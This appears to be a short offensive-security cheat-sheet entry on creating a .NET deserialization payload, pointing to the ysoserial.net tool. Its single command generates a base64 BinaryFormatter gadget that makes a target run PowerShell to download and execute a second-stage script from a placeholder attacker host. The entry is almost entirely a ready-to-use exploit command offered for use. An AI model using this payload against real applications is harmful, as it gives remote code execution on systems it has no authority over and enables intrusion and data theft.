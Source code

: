 # create deserialization object in .NET

checkout: https://github.com/pwntester/ysoserial.net

```cmd
.\ysoserial.exe -f BinaryFormatter -o base64 -g TypeConfuseDelegate -c "Powershell -c IEX(new-object net.webclient).downloadstring('http://<ip>:<port>/stage1.ps1')"
```

